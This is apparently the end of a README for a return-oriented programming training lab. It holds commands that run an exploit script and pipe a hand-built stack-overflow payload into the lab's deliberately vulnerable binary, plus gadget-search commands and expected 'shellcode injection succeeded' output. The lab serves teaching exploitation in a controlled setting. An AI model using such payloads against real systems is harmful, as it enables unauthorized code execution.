 ```bash
# Run exploit
python3 source_code/exploit.py

# Manual test (Linux x86_64)
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\x12\x40\x00\x00\x00\x00\x00" | ./compiled/vulnerable_code

# Find gadgets with ROPgadget
ROPgadget --binary compiled/vulnerable_code --ropchain

# Search for specific gadgets
objdump -d compiled/vulnerable_code | grep -E "(pop rdi|pop rsi|pop rdx|syscall)"
```

### 4. Expected Result

```
Shellcode Enjeksiyonu Basarili!
'whoami' komutu calistiriliyor...
[username]
Komut basariyla calistirildi!

ROP ile sistem komutu basariyla enjekte edildi!
```

## Advanced Topics

- **ASLR Bypass:** Bypassing ASLR with information leak
- **Stack Pivot:** Manipulating stack pointer
- **JOP (Jump-Oriented Programming):** Alternative to ROP
- **COP (Call-Oriented Programming):** Using call instructions
- **ROP Chain Optimization:** Creating more efficient chains

## Resources

- [ROP Emporium](https://ropemporium.com/) - ROP learning platform
- [Phrack ROP Article](http://phrack.org/issues/58/4.html) - Basic ROP article
- [ROPgadget Documentation](https://github.com/JonathanSalwan/ROPgadget) - Gadget analysis tool
- [pwntools Documentation](https://docs.pwntools.com/) - Exploit development library

## Contributing

To improve this laboratory:
1. Fork the project
2. Add new features
3. Submit pull request

## License

This project is licensed under the MIT License.

## Contact

- **CyberLabs:** [GitHub](https://github.com/alicangonullu/CyberLabs)
- **Email:** alicangonullu@yahoo.com
- **Web:** https://alicangonullu.com
